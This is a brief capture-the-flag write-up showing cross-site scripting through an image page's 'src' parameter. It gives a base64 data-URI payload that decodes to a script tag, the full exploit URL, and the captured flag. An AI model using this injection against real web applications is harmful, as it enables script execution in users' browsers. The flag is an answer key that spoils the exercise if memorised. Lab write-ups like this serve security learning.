

# Image link XSS

There is an image link on the main page: http://{ip}/?page=media&src=nsa
Changing the src parameter we get a wrong answer page but what's interesting is that with for example &src=test123 the html will contain an object tag with our data: 

By encoding javascript into the url using base64 we can get the flag:

`` 

base64-> `PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=`

http://{ip}/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=

Flag: 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d
